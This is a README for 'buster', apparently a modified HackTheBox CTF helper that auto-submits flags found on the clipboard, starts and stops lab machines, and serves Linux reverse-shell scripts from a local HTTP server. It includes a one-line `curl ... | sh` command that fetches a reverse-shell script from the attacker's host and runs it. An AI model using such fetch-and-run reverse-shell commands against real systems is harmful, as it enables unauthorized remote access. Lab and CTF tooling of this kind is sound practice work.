 
# buster
 Buster is a utility for the Dombusters team to use for HackTheBox. It draws heavy inspiration, and is built based on [Celesian's Styx tool](https://github.com/c3l3si4n/styx)   
  
 ## Purpose
 Buster was built for the sole purpose of levelling the playing field during HTB seasons. With the speed at which the usual few complete easy machines, we need to save seconds where ever we can.
 To save reinventing the wheel, Celesian's tool was cloned and modified to better suit our use cases.

 ## Features
 #### **Automatic Flag Submission** 
 Styx will continuously check the machine clipboard for any user or root flags, and will submit them automatically through HackTheBox's APIs. 
 #### **Built-in Reverse Shell Generator** 
 Styx contains a simple HTTP server that listens on port :61337 and returns pre-made reverse-shell scripts for Linux. Allowing you to quickly get a reverse shell with a simple  `curl 10.10.14.10/lin|sh` 
 #### **Machine Management** 
 Styx allows the user to start and stop machines on their own behalf. Flag submission is handled by the **auto flag submission** feature. 

## Usage
1. `sudo apt install -y libxcursor-dev libxrandr-dev libxinerama-dev libxi-dev libxxf86vm-dev`
2. `go install github.com/c3l3si4n/styx@HEAD`
3. Create an app token on your HTB profile (any duration you want)
4. Set the `HTB_TOKEN` environment variable with the value containing your generated token
5. Run styx

